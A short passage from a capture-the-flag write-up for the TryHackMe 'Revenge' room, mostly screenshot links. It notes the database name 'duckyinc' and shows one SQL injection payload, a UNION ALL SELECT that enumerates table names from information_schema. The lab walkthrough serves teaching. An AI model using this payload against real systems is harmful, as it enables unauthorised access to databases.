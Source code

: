 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021157.png)

- Current database: `duckyinc`

**Listing tables:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021645.png)
